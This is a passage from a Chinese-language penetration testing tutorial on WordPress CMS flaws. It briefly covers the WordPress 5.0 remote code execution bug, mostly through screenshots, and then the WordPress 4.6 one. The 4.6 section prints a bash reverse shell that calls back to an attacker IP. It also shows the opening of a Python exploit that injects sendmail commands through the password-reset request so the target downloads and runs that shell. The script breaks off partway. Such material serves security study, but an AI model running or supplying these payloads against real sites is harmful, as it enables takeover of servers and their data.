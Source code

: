 # 11-web渗透测试-CMS漏洞

## 01-WordPress CMS 漏洞

WordPress是使用 PHP 语言开发的博客平台，用户可以在支持 PHP 和 MySQL 数据库的服务器上架设属于自己的网站。

### 01-WordPress 5.0远程代码执行漏洞

- 影响版本WordPress <= 5.0.0
- Rips在博客上披露了 WordPress 远程代码执行漏洞
- 设计缺陷：导致存在目录遍历以及本地文件包含漏洞
- 核心问题：PostMeta可以被覆盖、路径穿越、本地文件包含
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210629171412425.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1MTYxNjU4,size_16,color_FFFFFF,t_70#pic_center)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210629171422323.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1MTYxNjU4,size_16,color_FFFFFF,t_70#pic_center)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210629171443147.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1MTYxNjU4,size_16,color_FFFFFF,t_70#pic_center)
![在这里插入图片描述](https://img-blog.csdnimg.cn/2021062917145428.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1MTYxNjU4,size_16,color_FFFFFF,t_70#pic_center)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210629171505112.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1MTYxNjU4,size_16,color_FFFFFF,t_70#pic_center)
![在这里插入图片描述](https://img-blog.csdnimg.cn/2021062917152137.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1MTYxNjU4,size_16,color_FFFFFF,t_70#pic_center)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210629171534996.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1MTYxNjU4,size_16,color_FFFFFF,t_70#pic_center)

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210629171735227.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1MTYxNjU4,size_16,color_FFFFFF,t_70#pic_center)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210629171757280.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1MTYxNjU4,size_16,color_FFFFFF,t_70#pic_center)
### 02-WordPress4.6远程代码执行漏洞

配置好将shell.sh 文件放入自己的服务器

```bash
root@kail:/var/ww/html/# cat shell.sh
0<139-;exec 139<>/dev/tcp/192.168.86.200/1995;sh <&139 >&139
```

将自己服务器中的shell.sh 放入目标服务器
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210629171828813.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1MTYxNjU4,size_16,color_FFFFFF,t_70#pic_center)

创建 exp，漏洞利用头部的字段注入了恶意的Payload 数据，并进入 mail 函数，再利用【 sendmail 】命令的【 be 】参数进行命令的执行

```python
#!/usr/bin/env python3
import requests
import sys

# wordpress's url
target = 'http://192.168.0.142' if len(sys.argv) < 1 else sys.argv[1]
# Put your command in a website, and use the website's url
# don't contains "http://", must be all lowercase
shell_url = '192.168.0.141:8000/1.txt' if len(sys.argv) < 2 else sys.argv[2]
# an exists user
user = 'admin'
def generate_command(command):
    command = '${run{%s}}' % command
    command = command.replace('/', '${substr{0}{1}{$spool_directory}}')
    command = command.replace(' ', '${substr{10}{1}{$tod_log}}')
    return 'target(any -froot@localhost -be %s null)' % command

session = requests.session()
data = {
    'user_login': user,
    'redirect_to': '',
    'wp-submit': 'Get New Password'
```